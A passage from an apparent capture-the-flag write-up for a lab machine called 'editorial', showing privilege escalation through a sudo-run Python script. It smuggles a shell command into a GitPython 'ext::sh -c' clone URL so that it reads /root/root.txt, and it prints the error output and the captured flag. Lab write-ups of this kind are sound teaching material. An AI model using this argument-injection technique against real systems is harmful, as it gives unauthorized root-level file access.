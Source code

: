 Since we are seeing error related to the python3 execution it means that the python file was executed as root user.

Now let’s tweak it to retrieve the root.txt contents from the /root directory.

```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /root/root.txt% >% /tmp/root new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ cat /tmp/root 
a249b4b9c9b00abadf5161e28dee8bfa
```

![flag.png](../assets/images/editorial/flag.png)
